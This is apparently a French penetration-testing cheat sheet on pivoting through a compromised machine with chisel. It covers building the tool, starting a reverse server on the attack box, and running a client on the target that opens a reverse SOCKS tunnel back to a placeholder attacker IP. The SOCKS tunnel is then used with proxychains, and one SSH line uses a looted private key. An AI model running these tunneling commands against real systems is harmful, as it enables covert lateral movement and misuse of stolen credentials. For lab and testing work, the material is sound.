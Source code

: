 ```yaml
---
public: true # set to true to make the article publishable
---
```

C'est le principe d'utiliser une machine compromise pour relayer notre attaque vers 

## Installation et réduction de la taille

```shell
git clone https://github.com/jpillora/chisel.git
cd chisel
# stripping
go build -ldflags="-s -w"  # réduction de 10 Mo à 6 Mo
# sinon "static linking" (rend plus portable mais plus gros)
go build -gccgoflags="-s -w --static"
# compression
upx brute chisel # réduction de 6 à 1.5Mo
```

### Attackbox 

On commence par lancer un serveur sur notre machine (on veut que le client chisel se connecte à nous car en général les connexions sortantes sont autorisées mais pas le contraire. C'est un peu l'équivalent du côté "reverse" d'un reverse shell)

```
chisel server -p 443 --reverse
```

### Cible

On lance chisel en mode client (pour qu'il se connecte à notre serveur).
Une fois lancé, on souhaite qu'il exécute un serveur socks5.
En principe, un serveur socks s'exécute côté serveur, mais dans notre cas, on souhaite que le serveur socks s'exécute sur notre cible (donc côté client). 
On utilisera pour ce faire le `R` qui signifit "reverse" pour inverser le sens du tunnel.
On aura donc un serveur socks qui s'exécutera sur notre client et qui sera accessible depuis notre serveur sur un port qui, par défaut, sera le 1080.

```
# écoutera sur le port par défaut (1080) du serveur (attaquant) 
chisel client <ATTACK_BOX_IP>:443 R:socks

# si on souhaite modifier le port par défaut :
chisel client <ATTACK_BOX_IP>:443 R:socks:1234

```

## Utilisation

On se connectera en utlisant `proxychain`.
On commence par modifier le fichier de configuration `/etc/proxychains4.conf` et ajouter à la fin la section :

```
[ProxyList]
socks5 127.0.0.1 1080
# on peut éventuellement chainer les proxy socks sur lesquels rebondir en ajouter d'autres lignes à la suite
```

Une fois configuré, il ne reste plus qu'à préfixer nos commandes favorites de `proxychain` :

```
# Connexion SSH via le tunnel socks
proxychains ssh user@<IP_HOTE_ACCESSIBLE_DANS_LE_LAN_DE_NOTRE_CIBLE>
```

```
ssh webadmin@$TARGET_IP -i loot/id_rsa1 -D 1080  -R 1234:0.0.0.0:443 -v   
```